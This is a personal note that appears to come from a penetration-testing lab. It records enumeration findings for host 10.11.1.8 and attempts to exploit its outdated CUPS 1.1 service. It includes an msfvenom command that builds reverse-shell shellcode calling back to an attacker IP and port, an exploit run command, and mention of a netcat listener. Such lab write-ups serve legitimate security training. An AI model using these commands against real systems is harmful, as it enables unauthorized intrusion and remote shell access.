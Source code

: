 Attack Vectors & Searchsploit

Attack Vectors / Searchsploit

# FTP
![bcf4f777d82124a6f6681598f968fe2e.png](:/c38a5c85fe5b41828ed29a3d16327a13)

# Robots.txt
Disallows /internal and /tmp/
+ GET Entry '/internal/' in robots.txt returned a non-forbidden or redirect HTTP code (200)

# http://10.11.1.8/internal
Has a comment form. Source code uses javascript?
![internal.png](:/6788a70e2fe04d3d978f015c113b453e)
[curl_internalDir.txt](:/0eec02651e6a4c788d91363c816094e2)
![41270687309b23fb6904f4d978c518e7.png](:/6fe1e9bd5210454d92127bda76781b6b)

# HTTP Method TRACE on port 80
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
![e86dd289f9a74cbe77e78847cc290e63.png](:/f0558877879046f5a151ff928dc4227b)

# Apache Byterange Filter DoS
![14cd87d499350475a454433f8fc5999c.png](:/1e30c24fa4934f1e885a971ef0de54b7)

# Slowloris DOS attack
![6c0b5e0a514955ebdf090e3431f9f475.png](:/5e28db68b3434a58a32094111e694bd9)

# SSL/TLS MITM vulnerability (CCS Injection)
![ceeab58584de81c563b38181726f845d.png](:/3a1e47526ba64ac7a1113fe706ed9a70)

# Transport Layer Security (TLS) Protocol DHE_EXPORT Ciphers Downgrade MitM (Logjam)
![ac86e230df29dee84ba189bbae987d2c.png](:/cdca62c7c96645cdb642d96391aad6ba)

# Diffie-Hellman Key Exchange Insufficient Group Strength
![4dc32ae8266f6d39e7501e6b38df07a6.png](:/d1801f6574e643449da07fe112827103)


# SSL POODLE information leak 
![61124822749b8f73259fc320c28d0e8a.png](:/b94390776bd94988b04fcd117329ef73)


# There is a cgi-bin folder 
`http://10.11.1.8/cgi-bin/`

# PHP/4.3.9
+ GET Retrieved x-powered-by header: PHP/4.3.9

# Apache 2.0.52
+ HEAD Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
`searchsploit apache 2.0.52`
![2eeacab4abd8612c0fa28c194de0b2de.png](:/b5df77453e7746b385e2206efdc3f66c)



# TCN (Transparent Content Negotiation) Header
+ GET Uncommon header 'tcn' found, with contents: choice

# HTTP method ('Allow Header')
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.


# CUPS 1.1
`searchsploit cups 1.1`
![ed6b1d15f17bf2f421bd4aba78b4f03e.png](:/1ba48839d3ab40f78be7015ef1bcd589)

## Remote Command Execution
### Searchsploit
`searchsploit -m 41233`
![85b1395bad7162be5388d90267cb6d65.png](:/1dec8f3b6842402ebc073dd05fc1bf8b)

Generated shellcode
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 EXITFUNC=thread -f c --platform linux -o rev_linux_x86_shellReverseTcp_192.168.119.214_5678`
![22d5f4dca9ebcdfea26b72ef07a53416.png](:/8472602a6ef147409a2b9b915cc1b905)

Usage:
![574117dd62a21754fa65efc6c999d724.png](:/57f29045e05545d8b9b3bcb993b35555)

Run it - NO OUTPUT. LIKELY THE SHELL IS WRONG
`python cups/41233.py -a 10.11.1.8 -b 631 -c rev_linux_x86_shellReverseTcp_192.168.119.214_5678`
![571bb50a4e4263623407461b8638af83.png](:/41ecec604fe64b25a7d773365bab6887)






### Packet Storm Labs sigcup.c
https://github.com/BuddhaLabs/PacketStorm-Exploits/tree/master/0301-exploits

There are many warnings but it did compile
![9837a0f6eb47c273202f1c81f7bdf405.png](:/974ef6eb35a444cf8ec0788d491e5c17)

Usage
![35212845759556195a6ff948bcb38ee4.png](:/199975c9b2ad444dbb39c6113931b77d)

Created netcat listener
![7e95a543d2f316b4e0208c23392ac58e.png](:/21e3c3e911184b10b5cc3196a7bcdcc9)

Run sigcups on target
![7e76f373619b1f1d7e364b9c2a5973b7.png](:/7b50ac0958e94292b867087c8dc79d15)






# Port 3306
SQL Injection mysql?



id: 46375774bd504615acee86df1189b0d6
parent_id: 1d4bc2c1c84d452d8eafabea2cd5acc6
created_time: 2020-08-26T09:02:28.131Z
updated_time: 2020-08-27T10:01:53.424Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.131Z
user_updated_time: 2020-08-27T10:01:53.424Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1